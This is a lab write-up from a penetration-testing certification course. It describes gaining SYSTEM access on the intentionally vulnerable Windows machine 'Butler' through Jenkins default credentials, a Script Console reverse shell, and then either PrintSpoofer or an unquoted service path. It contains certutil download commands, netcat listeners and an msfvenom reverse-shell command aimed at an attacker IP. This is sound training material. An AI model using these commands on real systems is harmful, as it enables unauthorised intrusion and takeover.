# Butler

## Disclaimer
This writeup was completed as part of TCM Security's Practical Junior Penetration Tester (PJPT) certification. It is not designed to be a walkthrough of the box, nor is it intended to substitute attempting to exploit the box yourself. This writeup documents both my own attempt and the instructor's solution, as although I successfully gained `NT AUTHORITY\SYSTEM` on the machine, my approach differed greatly from that of the Instructor on the course.

The Lessons Identified section reflects what I took away from the experience.

---

## Introduction
Butler is an open-source vulnerable machine exploited as part of the mid-course capstone for the TCM Security PJPT certification. My objective was to successfully compromise the machine and achieve SYSTEM-level access. The only assistance provided was the username and password to log into the target machine directly, run `ip a`, and obtain the IP address — in this case `192.168.186.142`.



---

# My Approach
## Enumeration

Using Nmap, I scanned the target to identify open ports and services.



The scan revealed the following open ports:

1. Port 135 (MSRPC) — Microsoft Windows RPC
2. Port 139 (NetBIOS-SSN) — Microsoft Windows NetBIOS
3. Port 445 (Microsoft-DS) — SMB
4. Port 5040 — Unknown service
5. Port 8080 (HTTP) — Jetty 9.4.41.v20210516

The target was identified as running Windows 10 (1709–21H2). SMB message signing was enabled but not required.

I navigated to the web server on port 8080, which presented a Jenkins login page.



I ran a Dirb scan against the web server, which initially returned 403 Forbidden responses across all directories. I re-ran the scan with the `-w` flag to continue scanning despite the errors, which returned the seven results, alongside the result when I navigated to them.

1. `/assets/` — 404 Not Found
2. `/error` — Error page disclosing Jenkins version 2.289.3
3. `/favicon.ico` — Graphic only
4. `/git/` — 404 with additional server information (Servlet: Stapler, powered by Jetty 9.4.41.v20210516)
5. `/login` — Jenkins login page
6. `/logout` — Redirects to login page
7. `/robots.txt` — Confirmed the application was Jenkins; disallowed all directories to prevent automated tools from clicking build links



I then attempted to enumerate SMB using: `smbclient -L \\\\192.168.186.142\\`

This returned `NT_STATUS_ACCESS_DENIED`, indicating that anonymous SMB access was not permitted.



---

## Exploitation

With limited results from directory enumeration and SMB, I researched Jenkins default credentials and attempted several combinations against the login page. Both `admin/password` and `admin/admin` failed. After further research, I successfully authenticated using:

- Username: `jenkins`
- Password: `jenkins`



Once logged in, I was able to browse the Jenkins interface, which revealed numerous outdated components and flagged security vulnerabilities.



I navigated to the Jenkins Script Console at `http://192.168.186.142:8080/script`, which allows execution of Groovy code with system-level privileges. I first ran a basic command execution test to confirm code execution was possible:



With code execution confirmed, I set up a Netcat listener on my Kali machine with `nc -lvnp 4444`



I then executed a Windows reverse shell payload via the Script Console, connecting back to my Kali machine on port 4444. This provided an interactive `cmd.exe` shell as `butler\butler` — a low-privileged user.

---

## Privilege Escalation

With an initial foothold established, I ran `whoami /priv` to enumerate the privileges available to the current user. Three privileges were shown as enabled:

- `SeDebugPrivilege`
- `SeChangeNotifyPrivilege`
- `SeImpersonatePrivilege`

As I researched on Google, I learnt that `SeImpersonatePrivilege` is a well-known privilege escalation vector. It allows a process to impersonate the security token of another user, which can be abused to obtain a SYSTEM-level token using a class of tools known as Potato exploits.

I selected **PrintSpoofer**, a tool that abuses `SeImpersonatePrivilege` on Windows 10 and Server 2019 by tricking a SYSTEM-level process into authenticating to the attacker, capturing its token, and using it to execute commands as SYSTEM.

I downloaded the `PrintSpoofer64.exe` binary from its GitHub releases page onto my Kali machine, then hosted it using a Python HTTP server with the command: `python3 -m http.server 80`

On the target machine, I used `certutil` to download the binary from my Kali web server:

`certutil -urlcache -f http://192.168.186.128/PrintSpoofer64.exe PrintSpoofer64.exe`



I then executed PrintSpoofer to escalate privileges: `PrintSpoofer64.exe -i -c cmd.exe`

This returned a shell as `NT AUTHORITY\SYSTEM`, achieving full compromise of the target machine.



---

# Instructor Solution
## Enumeration

The instructor's Nmap scan returned a reduced set of open ports — ports 7680 and 8080 only — though the key finding of Jenkins on port 8080 was the same. The instructor navigated to the web server, viewed the page source and found nothing of note.

Rather than directory enumeration, the instructor determined that brute forcing the login page was the most productive approach and proceeded directly to that step.

---

## Exploitation

The instructor used **Burp Suite** to brute force the Jenkins login page:

1. Burp Suite's Intercept was enabled and a failed login attempt was submitted through the browser.
2. The intercepted request was sent to both Repeater and Intruder.
3. In Intruder, the username and password fields were marked as payload positions.
4. A **Cluster Bomb** attack type was configured, which tests every combination of usernames and passwords from two separate wordlists.
5. The attack was run and results monitored for differences in HTTP status code or response length.
6. The successful combination of `jenkins/jenkins` was identified by the presence of a `JSESSIONID` cookie in the response, indicating a successful authentication.

The instructor then executed a Groovy reverse shell via the Script Console in the same way I had, obtaining a `cmd.exe` shell as `butler\butler`.

The instructor ran `systeminfo` to confirm the target architecture (64-bit Windows 10), then used **WinPEAS** for automated privilege escalation enumeration. WinPEAS was downloaded to the attacker machine, placed in a transfers folder, and served via a Python HTTP server. It was then downloaded to the target using `certutil` and executed.

WinPEAS identified both `SeImpersonatePrivilege` and an **Unquoted Service Path** vulnerability. The instructor chose to exploit the unquoted service path rather than the token impersonation route as I had.

---

## Privilege Escalation — Unquoted Service Path

An unquoted service path vulnerability occurs when a Windows service executable path contains spaces and is not enclosed in quotation marks. When Windows attempts to start the service, it resolves the path ambiguously — searching for an executable at each space-delimited segment of the path before reaching the real binary. If an attacker can write a malicious executable to one of those intermediate locations, it will be executed instead of the legitimate service binary, inheriting the service's privileges.

The instructor identified the **WiseBootAssistant** service as vulnerable. A malicious reverse shell executable was generated using `msfvenom`:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.186.128 LPORT=7777 -f exe > Wise.exe`

The file was named `Wise.exe` to match the unquoted path resolution order, transferred to the target machine via the Python HTTP server and `certutil`, and placed in the appropriate directory.

A Netcat listener was set up on port 7777: `nc -lvnp 7777`

The WiseBootAssistant service was then stopped and restarted:

`sc stop WiseBootAssistant`
`sc start WiseBootAssistant`

When the service restarted, it executed `Wise.exe` in place of the legitimate binary, and the listener received a shell as `NT AUTHORITY\SYSTEM`.

---

# Lessons Identified

1. Jenkins uses Jetty as its underlying web server. Identifying Jetty on port 8080 should prompt investigation for Jenkins, as it is the most common application associated with that combination.
2. Default credentials are a high-value and low-effort attack vector. Common patterns such as using the application name as both username and password (e.g., `jenkins/jenkins`) should always be tested before attempting more complex techniques.
3. In the absense of finding default credentials, Burp Suite's **Intruder** with a **Cluster Bomb** attack type is an effective method for credential brute forcing where both the username and password are unknown, as it tests every combination across two wordlists.
4. The Jenkins Script Console (`/script`) allows unauthenticated Groovy code execution if accessible, and authenticated execution once logged in. It is a critical attack surface on any exposed Jenkins instance.
5. The `-w` flag in Dirb forces the tool to continue scanning even when the server returns consistent error codes, which can uncover additional content that would otherwise cause the scan to abort.
6. `whoami /priv` is an essential early post-exploitation step on Windows systems, as enabled privileges can reveal immediate escalation paths without requiring further enumeration tools.
7. `SeImpersonatePrivilege` is a common privilege held by service accounts and is exploitable via Potato-style attacks. **PrintSpoofer** is an effective tool for exploiting this privilege on Windows 10 and Server 2019 targets.
8. Hosting a file transfer server with `python3 -m http.server 80` combined with `certutil -urlcache -f` on the target is a reliable method for transferring tools to Windows machines during an engagement.
9. **WinPEAS** is the Windows equivalent of LinPEAS — it automates privilege escalation enumeration on Windows targets and can identify multiple potential vectors simultaneously.
10. An **Unquoted Service Path** vulnerability allows a malicious executable to be placed in a location that Windows will resolve before the legitimate service binary, executing it with the service's privileges when the service is started. Service names with spaces in their paths that are not wrapped in quotes should always be investigated when identified.
11. `msfvenom` can generate standalone reverse shell executables for Windows targets without requiring a full Metasploit session. The `-p`, `LHOST`, `LPORT`, and `-f exe` flags are the key parameters for generating a Windows reverse shell binary.
12. Stopping and restarting a vulnerable service (`sc stop` / `sc start`) is the trigger mechanism for exploiting an unquoted service path vulnerability — the malicious binary executes on service start.

---

## Tools Used
- **Nmap** — port scanning and service enumeration
- **Dirb** — web directory enumeration
- **Burp Suite** — HTTP interception and credential brute forcing (Intruder)
- **Netcat** — listener for reverse shell connections
- **Jenkins Script Console** — Groovy code execution for initial access
- **WinPEAS** — Windows privilege escalation enumeration
- **PrintSpoofer** — token impersonation privilege escalation
- **msfvenom** — reverse shell payload generation
- **Python HTTP Server** — file transfer via temporary web server
- **certutil** — file download on Windows targets